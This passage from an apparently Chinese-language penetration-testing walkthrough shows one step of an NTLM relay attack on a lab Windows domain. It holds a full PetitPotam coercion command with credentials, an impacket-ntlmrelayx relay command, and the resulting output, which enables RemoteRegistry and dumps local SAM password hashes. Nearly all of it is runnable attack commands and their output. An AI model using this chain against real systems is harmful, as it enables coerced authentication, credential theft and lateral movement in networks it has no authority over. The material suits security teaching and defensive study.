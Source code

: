 
```
ounter(lineounter(lineounter(line
python3 PetitPotam.py -u scarter -p Passw0rd -d shield.local \
  localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA \
  wkstn-3.shield.local
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOBmcNHajDZG8XFybfXictjeqZm0wjQcLrJJqOgIq2LGyicm4wsnn801ias6uLMFuSJPiarSjBsPbKZwQ/640?wx_fmt=png&from=appmsg "")  
  
**5. 在 SYSTEM 认证后提取 SAM 数据**  
  
当强制认证（Authentication）成功后，我们提取 SYSTEM 令牌并导出 SAM 数据库  

```
┌──(root㉿rbtsecurity)-[~]
└─$ impacket-ntlmrelayx -t wkstn-3.shield.local -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies


[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Multirelay disabled


[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.115.185, attacking target smb://wkstn-3.shield.local
[*] Authenticating against smb://wkstn-3.shield.local as / SUCCEED
[*] All targets processed!
[*] SMBD-Thread-7 (process_request_thread): Connection from 192.168.115.185 controlled, but there are no more targets left!
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x37e25629a1992a72be97236968ce3a53
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:7ddade167a491d4f28eb25728469310e:::
Polunchis:1000:aad3b435b51404eeaad3b435b51404ee:b897c7001bf1600723c81ec97bbf5b15:::
[*] Done dumping SAM hashes for host: wkstn-3.shield.local
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```
